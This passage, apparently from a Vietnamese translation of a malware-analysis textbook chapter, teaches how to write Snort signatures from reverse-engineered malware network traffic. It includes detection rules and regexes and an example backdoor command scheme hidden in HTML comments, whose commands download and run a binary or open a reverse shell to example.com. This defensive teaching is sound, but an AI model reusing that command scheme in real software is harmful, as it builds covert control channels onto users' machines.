Bước đầu tiên để đánh giá giao tiếp mạng là tìm các lời gọi hệ thống thực tế được sử dụng để thực hiện việc giao tiếp đó. Các hàm cấp thấp phổ biến nhất là một phần của API Windows Sockets (Winsock). Mã độc sử dụng API này thường sẽ sử dụng các hàm như `WSAStartup`, `getaddrinfo`, `socket`, `connect`, `send`, `recv`, và `WSAGetLastError`.

Mã độc có thể thay thế bằng một API cấp cao hơn có tên là Windows Internet (WinINet). Mã độc sử dụng API WinINet thường sẽ dùng các hàm như `InternetOpen`, `InternetConnect`, `InternetOpenURL`, `HTTPOpenRequest`, `HTTPQueryInfo`, `HTTPSendRequest`, `InternetReadFile`, và `InternetWriteFile`. Các API cấp cao này cho phép mã độc hòa lẫn hiệu quả hơn vào lưu lượng thông thường, vì đây cũng chính là các API được sử dụng trong quá trình duyệt web thông thường.

Một API cấp cao khác có thể được sử dụng cho mạng là giao diện Component Object Model (COM). Việc sử dụng COM ngầm định thông qua các hàm như `URLDownloadToFile` là khá phổ biến, nhưng việc sử dụng COM tường minh vẫn còn hiếm. Mã độc sử dụng COM một cách tường minh thường sẽ dùng các hàm như `CoInitialize`, `CoCreateInstance`, và `Navigate`. Việc sử dụng COM tường minh để khởi tạo và sử dụng một trình duyệt cho phép mã độc hòa lẫn hoàn hảo, vì nó thực sự sử dụng phần mềm trình duyệt đúng như thiết kế, đồng thời che giấu hiệu quả hoạt động và mối liên hệ của nó với lưu lượng mạng. Bảng _14.5_ cung cấp cái nhìn tổng quan về các lời gọi API mà mã độc có thể thực hiện để triển khai chức năng mạng.

| **WinSock API**   | **WinINet API**     | **Giao diện COM**   |
| ----------------- | ------------------- | ------------------- |
| `WSAStartup`      | `InternetOpen`      | `URLDownloadToFile` |
| `getaddrinfo`     | `InternetConnect`   | `CoInitialize`      |
| `socket`          | `InternetOpenURL`   | `CoCreateInstance`  |
| `connect`         | `InternetReadFile`  | `Navigate`          |
| `send`            | `InternetWriteFile` |                     |
| `recv`            | `HTTPOpenRequest`   |                     |
| `WSAGetLastError` | `HTTPQueryInfo`     |                     |
|                   | `HTTPSendRequest`   |                     |

_Table 14.5: Các API mạng trên Windows_

Quay trở lại với mẫu mã độc của chúng ta, các hàm import của nó bao gồm `InternetOpen` và `HTTPOpenRequest`, cho thấy mã độc sử dụng API WinINet. Khi chúng ta kiểm tra các tham số của `InternetOpen`, chúng ta thấy rằng chuỗi User-Agent được hardcode trong mã độc. Ngoài ra, `HTTPOpenRequest` nhận một tham số chỉ định các loại tệp được chấp nhận (accepted file types), và chúng ta cũng thấy rằng tham số này chứa nội dung được hardcode. Một tham số khác của `HTTPOpenRequest` là đường dẫn URI, và chúng ta thấy rằng nội dung của URI được tạo ra từ các lời gọi tới `GetTickCount`, `Random`, và `gethostbyname`.

#### h. Xác Định Nguồn Gốc Dữ Liệu Truyền Tải

Yếu tố có giá trị nhất cho việc tạo chữ ký là **dữ liệu được hardcode từ mã độc**. Lưu lượng mạng do mã độc gửi đi sẽ được xây dựng từ một tập hợp hạn chế các nguồn dữ liệu ban đầu. Việc tạo ra một signature hiệu quả đòi hỏi sự hiểu biết về nguồn gốc của từng phần nội dung mạng:

- **Dữ liệu ngẫu nhiên** (chẳng hạn như dữ liệu được trả về từ một hàm tạo giá trị giả ngẫu nhiên).
- **Dữ liệu từ các thư viện mạng tiêu chuẩn** (chẳng hạn như phương thức `GET` được tạo ra từ một lời gọi `HTTPSendRequest`).
- **Dữ liệu được hardcode từ mã độc** (chẳng hạn như chuỗi User-Agent cố định).
- **Dữ liệu về máy chủ và cấu hình của nó** (chẳng hạn như hostname, thời gian hiện tại theo đồng hồ hệ thống và tốc độ CPU).
- **Dữ liệu nhận được từ các nguồn khác**, chẳng hạn như từ máy chủ từ xa hoặc hệ thống tệp (ví dụ như một chuỗi nonce gửi từ server dùng trong mã hóa, một tệp cục bộ, và các phím bấm thu được bởi một keylogger).

Lưu ý rằng có thể có các cấp độ mã hóa khác nhau được áp dụng lên dữ liệu này trước khi nó được truyền qua mạng, nhưng nguồn gốc cơ bản của nó sẽ quyết định tính hữu dụng của nó đối với việc tạo chữ ký.

#### i. Phân Biệt Dữ Liệu Cố Định (Hard-Coded) và Dữ Liệu Tạm Thời (Ephemeral)

Mã độc sử dụng các API mạng cấp thấp hơn như Winsock đòi hỏi nhiều nội dung được tạo thủ công hơn để bắt chước lưu lượng thông thường so với mã độc sử dụng API mạng cấp cao hơn như giao diện COM. Càng nhiều nội dung thủ công đồng nghĩa với việc càng có nhiều dữ liệu được hardcode, điều này làm tăng khả năng tác giả mã độc sẽ mắc phải một sai lầm nào đó mà bạn có thể tận dụng để tạo signature. Các lỗi này có thể rất lộ liễu, chẳng hạn như viết sai chính tả từ `Mozilla` thành `Mozila`, hoặc tinh vi hơn như thiếu dấu cách hoặc cách viết hoa/thường khác biệt so với lưu lượng thông thường (`MoZilla`).

Trong mẫu mã độc thử nghiệm, có một sai sót tồn tại trong chuỗi `Accept` được hardcode. Chuỗi này được định nghĩa tĩnh là `* / *`, thay vì chuỗi chuẩn thông thường là `*/*`.

Hãy nhớ lại rằng URI được tạo ra từ mã độc ví dụ của chúng ta có dạng sau:
```
/14586205865810997108584848485355525551
```
Hàm tạo URI gọi `GetTickCount`, `Random`, và `gethostbyname`, và khi nối các chuỗi lại với nhau, mã độc sử dụng ký tự dấu hai chấm (`:`). Chuỗi `Accept` được hardcode và các ký tự dấu hai chấm được hardcode là những ứng cử viên sáng giá để đưa vào signature.

Kết quả từ lời gọi hàm `Random` nên được tính đến trong signature dưới dạng bất kỳ giá trị ngẫu nhiên nào cũng có thể được trả về. Kết quả từ các lời gọi `GetTickCount` và `gethostbyname` cần được đánh giá mức độ tĩnh/động trước khi quyết định đưa vào chữ ký.

Trong khi gỡ lỗi đoạn mã tạo nội dung của mẫu mã độc, chúng ta thấy rằng hàm này tạo ra một chuỗi và sau đó gửi nó đến một hàm mã hóa. Định dạng của chuỗi trước khi được gửi dường như là:
```
<4 byte ngẫu nhiên>:<3 byte đầu của hostname>:<thời gian từ GetTickCount dưới dạng số hex>
```
Hóa ra đây là một hàm mã hóa đơn giản lấy từng byte và chuyển đổi nó thành dạng thập phân ASCII (ví dụ: ký tự `a` trở thành `97`). Bây giờ thì đã rõ tại sao rất khó để tìm ra quy luật của URI chỉ bằng phân tích động, vì nó sử dụng tính ngẫu nhiên, các thuộc tính của máy chủ, thời gian và một công thức mã hóa có thể thay đổi độ dài tùy thuộc vào từng ký tự. Tuy nhiên, với thông tin này kết hợp với phân tích tĩnh, chúng ta có thể dễ dàng phát triển một biểu thức chính quy (regular expression) hiệu quả cho URI.

#### j. Nhận Diện và Đảo Ngược Các Bước Mã Hóa Mạng

Việc xác định nội dung ổn định hoặc được hardcode không phải lúc nào cũng đơn giản, vì các bước biến đổi có thể diễn ra giữa nguồn dữ liệu gốc và lưu lượng mạng thực tế. Ví dụ, trong trường hợp này, kết quả của lệnh `GetTickCount` bị ẩn giữa hai lớp mã hóa: đầu tiên biến giá trị nhị phân DWORD thành biểu diễn hex 8-byte, sau đó dịch từng byte đó thành giá trị thập phân ASCII tương ứng.

Biểu thức chính quy hoàn chỉnh thu được như sau:
```
/\/([12]{0,1}[0-9]{1,2}){4}58[0-9]{6,9}58(4[89]|5[0-7]|9[789]|11[012]){8}/
```
Bảng _14.6_ cho thấy sự tương ứng giữa nguồn dữ liệu đã xác định và biểu thức chính quy hoàn chỉnh, sử dụng một trong các ví dụ trước đó để minh họa quá trình biến đổi.

| **Nguồn dữ liệu**        | **<4 byte ngẫu nhiên>**                  | **:**  | **<3 byte đầu của hostname>** | **:**  | **<thời gian từ GetTickCount>**                  |
| ------------------------ | ---------------------------------------- | ------ | ----------------------------- | ------ | ------------------------------------------------ |
| **Dữ liệu gốc**          | `0x91, 0x56, 0xCD, 0x56`                 | `:`    | `"m", "a", "l"`               | `:`    | `00057473`                                       |
| **Biểu diễn trung gian** | `0x91, 0x56, 0xCD, 0x56`                 | `0x3A` | `0x6D, 0x61, 0x6C`            | `0x3A` | `0x30, 0x30, 0x30, 0x35, 0x37, 0x34, 0x37, 0x33` |
| **Giá trị ASCII Dec**    | `1458620586`                             | `58`   | `10997108`                    | `58`   | `4848485355525551`                               |
| **Thành phần PCRE**      | `(([1-9]\|1[0-9]\|2[0-5]){0,1}[0-9]){4}` | `58`   | `[0-9]{6,9}`                  | `58`   | `(4[89]\|5[0-7]\|9[789]\|10[012]){8}`            |

_Table 14.6: Phân tích biểu thức chính quy từ nội dung gốc_

Hãy cùng bóc tách đoạn mã này để xem các phần tử đã được nhắm mục tiêu như thế nào:

- **Hai dấu hai chấm cố định** phân tách ba phần tử khác nhau chính là các "trụ cột" của biểu thức, và các byte này được xác định ở cột 2 và cột 4 của Bảng 14-6. Mỗi dấu hai chấm được biểu diễn bằng `58`, là biểu diễn thập phân ASCII của nó (`0x3A` = 58). Đây là dữ liệu tĩnh thô vô cùng quý giá cho việc tạo signature.
- **Mỗi byte trong số 4 byte ngẫu nhiên ban đầu** cuối cùng có thể được chuyển thành một số thập phân từ 0 đến 255. Biểu thức chính quy `([1-9]|1[0-9]|2[0-5]){0,1}[0-9]` bao phủ dải số từ 0 đến 259, và `{4}` biểu thị 4 bản sao của mẫu đó. Hãy nhớ rằng dấu ngoặc vuông chứa các ký tự, và dấu ngoặc nhọn chứa số lượng phần tử đứng trước lặp lại. Ký hiệu gạch đứng (`|`) thể hiện phép toán logic OR. Ở đây chúng ta mở rộng dải giá trị cho phép một chút để tránh làm biểu thức chính quy trở nên quá phức tạp.
- Kiến thức về các bước xử lý hoặc mã hóa mang lại nhiều điều hơn là chỉ việc xác định các phần tử tĩnh. Việc mã hóa có thể giới hạn những gì mã độc gửi qua đường truyền vào các bộ ký tự và độ dài trường cụ thể, từ đó có thể được sử dụng để tập trung chữ ký. Ví dụ: mặc dù nội dung ban đầu là ngẫu nhiên, chúng ta biết rằng nó có độ dài cụ thể và chúng ta biết rằng bộ ký tự cũng như độ dài tổng thể của lớp mã hóa cuối cùng có những ràng buộc rõ ràng.
- **Phần tử nằm giữa hai giá trị 58 là `[0-9]{6,9}`**, đại diện cho ba ký tự đầu tiên của trường hostname được chuyển đổi thành giá trị thập phân ASCII tương đương. Mẫu PCRE này khớp với một chuỗi chữ số thập phân dài từ 6 đến 9 ký tự. Theo quy tắc, một hostname thông thường sẽ không chứa các giá trị ASCII một chữ số (từ 0–9 vì đó là các ký tự không in được), nên giới hạn dưới là 6 (ba ký tự, mỗi ký tự có giá trị ASCII dạng thập phân tối thiểu gồm 2 chữ số) thay vì 3.
- Điều quan trọng là phải tránh các yếu tố tạm thời (ephemeral elements) trong signature của bạn cũng như việc đưa vào dữ liệu được hardcode. Như đã quan sát trong phần phân tích động, hostname của hệ thống bị nhiễm có vẻ nhất quán đối với chính máy đó, nhưng bất kỳ signature nào sử dụng phần tử đó làm nội dung tĩnh sẽ không thể kích hoạt đối với các máy bị nhiễm khác. Trong trường hợp này, chúng ta đã tận dụng các hạn chế về độ dài và mã hóa, chứ không sử dụng nội dung cụ thể của hostname.
- **Phần thứ ba của biểu thức `(4[89]|5[0-7]|9[789]|10[012]){8}`** bao phủ các giá trị khả dĩ cho các ký tự đại diện cho thời gian hoạt động (uptime) của hệ thống, được xác định từ lời gọi `GetTickCount`. Kết quả từ `GetTickCount` là một DWORD, được chuyển sang dạng hex, rồi chuyển sang các biểu diễn thập phân ASCII. Vì vậy, nếu giá trị của `GetTickCount` là `268404824` (khoảng 3 ngày uptime), biểu diễn hex sẽ là `0x0fff8858`. Do đó, các chữ số được biểu diễn bằng mã ASCII thập phân từ 48 đến 57, và các chữ cái viết thường (giới hạn từ a đến f) được biểu diễn bằng ASCII thập phân từ 97 đến 102. Như đã thấy đối với trường này, số lượng `{8}` khớp với số ký tự hex, và biểu thức chứa phép OR logic bao phủ các dải số thích hợp.
- Một số nguồn dữ liệu thoạt nhìn có vẻ ngẫu nhiên và không thể sử dụng được, nhưng một phần dữ liệu thực sự có thể dự đoán được. Thời gian là một ví dụ, vì các bit bậc cao (high-order bits) sẽ tương đối cố định và đôi khi có thể cung cấp nguồn dữ liệu đủ ổn định để hữu ích trong một chữ ký.

Có một sự đánh đổi giữa hiệu năng và độ chính xác trong việc xây dựng các chữ ký hiệu quả. Trong ví dụ này, các biểu thức chính quy (PCRE) là một trong những phép kiểm tra tốn kém tài nguyên nhất của IDS. Một chuỗi nội dung tĩnh độc nhất có thể cải thiện đáng kể tốc độ tìm kiếm dựa trên nội dung. Ví dụ cụ thể này rất khó khăn vì nội dung cố định duy nhất có sẵn chỉ là chuỗi ngắn `58`.

Có một vài chiến lược có thể được sử dụng để tạo signature hiệu quả trong trường hợp này:

1. Chúng ta có thể kết hợp biểu thức chính quy của URI với chuỗi User-Agent cố định, để biểu thức chính quy sẽ không được kích hoạt trừ khi có mặt chuỗi User-Agent cụ thể.
2. Giả sử bạn muốn có một signature chỉ dành cho URI, bạn có thể nhắm mục tiêu vào hai giá trị `58` bằng hai biểu thức `content` và các từ khóa để đảm bảo rằng chỉ một số lượng byte giới hạn được tìm kiếm sau khi tìm thấy phiên bản đầu tiên của 58 (`content:"58"; content:"58"; distance:6; within:5;`). Từ khóa `within` giới hạn số lượng ký tự được tìm kiếm tiếp theo.
3. Vì các bit trên của lời gọi `GetTickCount` tương đối cố định, có cơ hội để kết hợp các bit trên với số `58` liền kề. Ví dụ, trong tất cả các lần chạy mẫu của chúng ta, số `58` được theo sau bởi số `48`, đại diện cho số 0 là chữ số có trọng số lớn nhất. Phân tích các mốc thời gian liên quan, chúng ta thấy rằng chữ số có ý nghĩa nhất sẽ là `48` cho 3 ngày hoạt động đầu tiên, `49` cho 3 ngày tiếp theo, và nếu chúng ta chấp nhận mạo hiểm một chút, chúng ta có thể sử dụng `584` hoặc `585` làm bộ lọc ban đầu để bao phủ thời gian hoạt động lên đến một tháng.

Mặc dù việc chú ý đến nội dung xuất hiện trong mã độc là rất quan trọng, nhưng việc xác định các trường hợp mà **nội dung đáng lẽ phải tồn tại nhưng lại vắng mặt** cũng quan trọng không kém. Một dạng lỗi hữu ích mà các tác giả mã độc hay mắc phải, đặc biệt là khi sử dụng các API cấp thấp, là quên không đưa vào các mục thường xuyên hiện diện trong lưu lượng truy cập thông thường. Trường `Referer` chẳng hạn, thường xuyên có mặt trong hoạt động duyệt web bình thường. Nếu không được đưa vào bởi mã độc, sự vắng mặt của nó có thể là một phần của signature. Điều này thường tạo nên sự khác biệt giữa một signature thành công và một signature tạo ra nhiều dương tính giả.

#### k. Thiết Kế Luật Chữ Ký Mạng Hiệu Quả

Dưới đây là signature Snort được đề xuất cho mẫu mã độc của chúng ta, kết hợp nhiều yếu tố khác nhau mà chúng ta đã đề cập cho đến nay: chuỗi User-Agent tĩnh, chuỗi Accept bất thường, dấu hai chấm được mã hóa (`58`) trong URI, sự vắng mặt của trường referer, và một yêu cầu GET khớp với biểu thức chính quy đã được mô tả ở trên.
```
alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"TROJAN Malicious Beacon"; content:"User-Agent: Mozilla/4.0 (compatible\; MSIE 7.0\; Windows NT 5.1)"; content:"Accept: * / *"; uricontent:"58"; content:!"|0d0a|referer:"; nocase; pcre:"/GET \/([12]{0,1}[0-9]{1,2}){4}58[0-9]{6,9}58(4[89]|5[0-7]|9[789]|10[012]){8} HTTP/"; classtype:trojan-activity; sid:2000002; rev:1;)
```

> **GHI CHÚ:** Thông thường, khi một nhà phân tích mới bắt đầu học cách viết network signature, trọng tâm ban đầu là tạo ra một chữ ký có thể hoạt động được. Tuy nhiên, việc đảm bảo rằng chữ ký đó hoạt động hiệu quả về mặt hiệu năng cũng rất quan trọng. Chương này tập trung vào việc xác định các yếu tố của một signature tốt, nhưng chúng ta không dành quá nhiều thời gian vào việc tối ưu hóa hiệu năng xử lý cho các signature ví dụ.

#### l. Dịch Ngược Các Hàm Phân Tích Cú Pháp (Parsing Routines)

Chúng ta đã lưu ý trước đó rằng chúng ta sẽ xem xét giao tiếp theo cả hai hướng. Cho đến nay, chúng ta đã thảo luận về cách phân tích lưu lượng do mã độc tạo ra, nhưng thông tin trong mã độc về **lưu lượng mà nó nhận được** cũng có thể được sử dụng để tạo signature.

Ví dụ, hãy xem xét một đoạn mã độc sử dụng trường `Comment` trong một trang web để nhận lệnh tiếp theo — một chiến lược mà chúng ta đã thảo luận ngắn gọn ở phần trước trong chương này. Mã độc sẽ gửi yêu cầu lấy một trang web tại một trang mà kẻ tấn công đã xâm phạm và tìm kiếm thông điệp ẩn được nhúng trong trang web đó. Giả sử rằng ngoài mã độc, chúng ta cũng có một số lưu lượng mạng hiển thị phản hồi từ web server gửi về cho mã độc.

Khi so sánh các chuỗi ký tự trong mã độc và trang web, chúng ta thấy rằng có một thuật ngữ chung xuất hiện ở cả hai: `adsrv?`. Trang web được trả về có một dòng duy nhất trông như thế này:
```html
<!-- adsrv?bG9uZ3NsZWVw -->
```
Đây là một comment khá vô hại bên trong một trang web, và bản thân nó khó có thể thu hút nhiều sự chú ý. Có thể bạn sẽ muốn tạo một network signature chỉ dựa trên lưu lượng quan sát được này, nhưng làm như vậy sẽ dẫn đến một giải pháp không đầy đủ. Trước tiên, hai câu hỏi phải được trả lời:

- Mã độc còn có thể hiểu được những lệnh nào khác?
- Làm thế nào mã độc nhận ra rằng trang web có chứa lệnh điều khiển?

Như chúng ta đã thấy, chuỗi `adsrv?` xuất hiện trong mã độc, và nó sẽ là một thành phần signature tuyệt vời. Chúng ta có thể củng cố signature bằng cách thêm các thành phần khác.

Để tìm các phần tử bổ sung tiềm năng, trước tiên chúng ta tìm routine mạng nơi trang web được nhận, và thấy một hàm được gọi nhận dữ liệu đầu vào. Đây có thể chính là hàm phân tích cú pháp (parsing function).

Hình _14.3_ hiển thị biểu đồ IDA Pro của một hàm parsing mẫu chuyên tìm kiếm trường Comment trong trang web. Thiết kế này là điển hình của một hàm parsing tự viết, thường được sử dụng trong mã độc thay vì một thư viện biểu thức chính quy. Các parsing routine tự tạo thường được tổ chức dưới dạng một chuỗi các khối kiểm tra tầng bậc (cascading pattern) cho các ký tự ban đầu. Mỗi khối kiểm tra nhỏ sẽ có một nhánh chuyển tiếp xuống khối tiếp theo và một nhánh khác chuyển tới một khối xử lý thất bại (chứa tùy chọn quay vòng lại từ đầu).

Đường tạo thành vòng lặp trên cùng ở bên trái của Hình 14-3 cho thấy dòng hiện tại đã kiểm tra thất bại và dòng tiếp theo sẽ được thử. Hàm mẫu này có cấu trúc phân tầng và vòng lặp kép, và tầng thứ hai sẽ tìm kiếm các ký tự đóng trường Comment. Các khối riêng lẻ trong tầng hiển thị các ký tự mà hàm đang tìm kiếm. Trong trường hợp này, các ký tự đó là `<!--` trong vòng lặp đầu tiên và `-->` trong vòng lặp thứ hai. Trong khối nằm giữa hai tầng, có một lời gọi hàm kiểm tra nội dung xuất hiện sau chuỗi `<!--`. Do đó, lệnh sẽ chỉ được xử lý nếu nội dung ở giữa khớp với hàm bên trong và cả hai đầu bao bọc của comment đều nguyên vẹn.

Khi chúng ta đào sâu hơn vào hàm parsing bên trong, chúng ta thấy rằng trước tiên nó kiểm tra xem chuỗi `adsrv?` có tồn tại hay không. Kẻ tấn công đặt một lệnh cho mã độc nằm giữa dấu chấm hỏi và phần đóng comment, đồng thời thực hiện một phép chuyển đổi Base64 đơn giản của lệnh để làm mờ ở mức sơ cấp. Hàm parsing thực hiện chuyển đổi Base64, nhưng nó không thông dịch lệnh kết quả. Việc phân tích lệnh được thực hiện ở phần sau của đoạn mã khi quá trình parsing hoàn tất.

Mã độc chấp nhận năm lệnh: ba lệnh yêu cầu mã độc sleep trong các khoảng thời gian khác nhau, và hai lệnh cho phép kẻ tấn công tiến hành giai đoạn tấn công tiếp theo. Bảng 14-7 hiển thị các lệnh mẫu mà mã độc có thể nhận được, cùng với các bản dịch Base64 tương ứng.

| **Lệnh mẫu (Command example)**                                     | **Bản dịch Base64 (Base64 translation)**   | **Thao tác thực hiện (Operation)**                              |
| ------------------------------------------------------------------ | ------------------------------------------ | --------------------------------------------------------------- |
| `longsleep`                                                        | `bG9uZ3NsZWVw`                             | Tạm dừng (sleep) trong 1 giờ.                                   |
| `superlongsleep`                                                   | `c3VwZXJsb25nc2xlZXA=`                     | Tạm dừng trong 24 giờ.                                          |
| `shortsleep`                                                       | `c2hvcnRzbGVlcA==`                         | Tạm dừng trong 1 phút.                                          |
| `run:[www.example.com/fast.exe](https://www.example.com/fast.exe)` | `cnVuOnd3dy5leGFtcGxlLmNvbS9mYXN0LmV4ZQ==` | Tải xuống và thực thi tệp nhị phân trên hệ thống cục bộ.        |
| `connect:[www.example.com:80](https://www.example.com:80)`         | `Y29ubmVjdDp3d3cuZXhhbXBsZS5jb206ODA=`     | Sử dụng một giao thức tùy chỉnh để thiết lập một reverse shell. |

_Table 14.7: Các lệnh điều khiển mẫu của mã độc_

Một cách tiếp cận để tạo signature cho backdoor này là nhắm mục tiêu vào toàn bộ tập hợp các lệnh đã biết được sử dụng bởi mã độc (bao gồm cả ngữ cảnh xung quanh). Các biểu thức `content` cho năm lệnh được mã độc nhận diện sẽ chứa các chuỗi sau:
```
<!-- adsrv?bG9uZ3NsZWVw -->
<!-- adsrv?c3VwZXJsb25nc2xlZXA= -->
<!-- adsrv?c2hvcnRzbGVlcA== -->
<!-- adsrv?cnVu
<!-- adsrv?Y29ubmVj
```

Hai biểu thức cuối cùng chỉ nhắm vào phần tĩnh của các lệnh (`run` và `connect`), và vì độ dài của đối số chưa được biết, chúng không nhắm vào các ký tự kết thúc comment (`-->`).

Mặc dù các signature sử dụng tất cả các phần tử này có thể sẽ bắt chính xác mẫu mã độc cụ thể này, nhưng có nguy cơ nó quá cụ thể dẫn đến mất đi tính bao quát (robustness). Nếu kẻ tấn công thay đổi bất kỳ phần nào của mã độc — tập lệnh, phương thức mã hóa, hoặc tiền tố lệnh — một signature quá chi tiết sẽ lập tức mất đi hiệu lực.

#### m. Kết Hợp Đa Thành Phần Trong Một Chữ Ký

Trước đó, chúng ta đã thấy rằng các phần khác nhau của quá trình thông dịch lệnh nằm ở các phần mã khác nhau. Với kiến thức đó, chúng ta có thể tạo ra các signature khác nhau để nhắm mục tiêu riêng biệt vào từng phần tử.

Ba phần tử dường như nằm trong các hàm riêng biệt là: dấu ngoặc comment, chuỗi cố định `adsrv?` đi kèm một biểu thức Base64 phía sau, và quá trình parsing lệnh thực tế. Dựa trên ba phần tử này, một tập hợp các thành phần signature có thể bao gồm những mục sau (để ngắn gọn, chỉ các phần tử chính của mỗi chữ ký được đưa vào, với mỗi dòng đại diện cho một signature khác nhau):
```
pcre:"/<!-- adsrv\?([a-zA-Z0-9+\/=]{4})+ -->/"
content:"<!-- "; content:"bG9uZ3NsZWVw -->"; within:100;
content:"<!-- "; content:"c3VwZXJsb25nc2xlZXA= -->"; within:100;
content:"<!-- "; content:"c2hvcnRzbGVlcA== -->"; within:100;
content:"<!-- "; content:"cnVu"; within:100; content:"-->"; within:100;
content:"<!-- "; content:"Y29ubmVj"; within:100; content:"-->"; within:100;
```
Các signature này nhắm vào ba phần tử khác nhau cấu thành nên một lệnh được gửi tới mã độc. Tất cả đều bao gồm dấu ngoặc comment. Chữ ký đầu tiên nhắm vào tiền tố lệnh `adsrv?` theo sau là một lệnh được mã hóa Base64 tổng quát. Các chữ ký còn lại nhắm vào một lệnh mã hóa Base64 đã biết mà không phụ thuộc vào tiền tố lệnh.

Vì chúng ta biết việc parsing diễn ra trong một phần mã riêng biệt, việc nhắm mục tiêu độc lập vào nó là hoàn toàn hợp lý. Nếu kẻ tấn công thay đổi phần này hay phần khác của mã nguồn, các signature của chúng ta vẫn sẽ phát hiện ra phần không bị thay đổi.

Lưu ý rằng chúng ta vẫn đang đưa ra các giả định. Các signature mới có thể dễ bị dương tính giả hơn. Chúng ta cũng đang giả định rằng kẻ tấn công nhiều khả năng sẽ tiếp tục sử dụng dấu ngoặc comment HTML, vì comment là một phần của giao tiếp web thông thường và khó bị coi là đáng ngờ. Tuy nhiên, chiến lược này cung cấp độ bao phủ mạnh mẽ hơn so với nỗ lực ban đầu của chúng ta và có nhiều khả năng phát hiện các biến thể tương lai của mã độc hơn.

Hãy xem lại signature mà chúng ta đã tạo trước đó cho lưu lượng beacon. Hãy nhớ lại rằng chúng ta đã kết hợp mọi phần tử có thể vào trong cùng một signature:
```
alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"TROJAN Malicious Beacon "; content:"User-Agent: Mozilla/4.0 (compatible\; MSIE 7.0\; Windows NT 5.1)"; content:"Accept: * / *"; uricontent:"58"; content:!"|0d0a|referer:"; nocase; pcre:"/GET \/([12]{0,1}[0-9]{1,2}){4}58[0-9]{6,9}58(4[89]|5[0-7]|9[789]|10 [012]){8} HTTP/"; classtype:trojan-activity; sid:2000002; rev:1;)
```
Signature này có phạm vi hạn chế và sẽ trở nên vô dụng nếu kẻ tấn công thực hiện bất kỳ thay đổi nào đối với mã độc. Một cách để giải quyết các phần tử khác nhau một cách độc lập và tránh bị lỗi thời nhanh chóng là chia thành hai mục tiêu sau:

- **Mục tiêu 1:** Chuỗi User-Agent, chuỗi Accept, không có referer.
- **Mục tiêu 2:** URI cụ thể, không có referer.

Chiến lược này sẽ mang lại hai signature:
```
alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"TROJAN Malicious Beacon UA with Accept Anomaly"; content:"User-Agent: Mozilla/4.0 (compatible\; MSIE 7.0\; Windows NT 5.1)"; content:"Accept: * / *"; content:!"|0d0a|referer:"; nocase; classtype:trojan-activity; sid:2000004; rev:1;)

alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"TROJAN Malicious Beacon URI"; uricontent:"58"; content:!"|0d0a|referer:"; nocase; pcre:"/GET \/([12]{0,1}[0-9]{1,2}){4}58[0-9]{6,9}58(4[89]|5[0-7]|9[789]|10[012]){8} HTTP/"; classtype:trojan-activity; sid:2000005; rev:1;)
```

| Dấu hiệu hoạt động mạng độc hại | Kỹ thuật phát hiện | Mức độ tin cậy của chỉ số (IoC) |
| :--- | :--- | :--- |
| **Tên miền Dynamic DNS** | Bắt truy vấn DNS tới no-ip, dyndns | Trung bình (Dễ bị kẻ tấn công thay đổi) |
| **Địa chỉ IP máy chủ C2** | Bắt gói tin TCP SYN / HTTP | Thấp (IP có thể là proxy hoặc VPS ngắn hạn) |
| **User-Agent tùy biến lạ** | Phân tích tiêu đề HTTP Header | Cao (Mã độc thường dùng User-Agent đặc trưng) |
| **Cấu trúc URL và URI tham số**| Dịch ngược hàm định dạng chuỗi | Rất cao (Khó thay đổi nếu không biên dịch lại) |
| **Chữ ký giao thức tùy biến** | Khảo sát byte mở đầu (Magic bytes) | Tuyệt đối (Định danh trực tiếp họ mã độc) |

*Bảng 14.1 & 14.4: Bảng phân cấp độ tin cậy của các chỉ số xâm phạm mạng (Network IoC).*



*Hình 14.2: Phân tích thông tin đăng ký tên miền Whois để phát hiện thời gian tạo lập mới và email của kẻ tấn công.*

#### Bảng tra cứu từ khóa xây dựng quy tắc Snort IDS

| Từ khóa Snort | Mục đích cú pháp | Ví dụ triển khai quy tắc |
| :--- | :--- | :--- |
| **msg** | Đặt thông điệp cảnh báo hiển thị trong log | `msg:"MALWARE-CNC Win.Trojan.Downloader beacon";` |
| **flow** | Xác định hướng lưu lượng TCP | `flow:to_server,established;` |
| **content** | Tìm kiếm chuỗi văn bản hoặc dãy hex trong payload | `content:"|00 01 02 03|";` hoặc `content:"GET /gate.php";` |
| **nocase** | Không phân biệt chữ hoa, chữ thường | `content:"User-Agent: Mozilla"; nocase;` |
| **offset / depth** | Giới hạn vùng tìm kiếm tính từ đầu payload | `depth:10;` (chỉ tìm trong 10 byte đầu) |
| **distance / within** | Giới hạn khoảng cách tương đối so với content trước | `distance:0; within:50;` |
| **pcre** | Tìm kiếm bằng biểu thức chính quy Perl Regex | `pcre:"/cmd\.exe\?id=[0-9]{4}/i";` |
| **sid / rev** | Mã định danh quy tắc Snort duy nhất và số sửa đổi | `sid:1000001; rev:1;` |

*Bảng 14.2 & 14.3: Các từ khóa cốt lõi để thiết kế luật phát hiện xâm nhập Snort.*

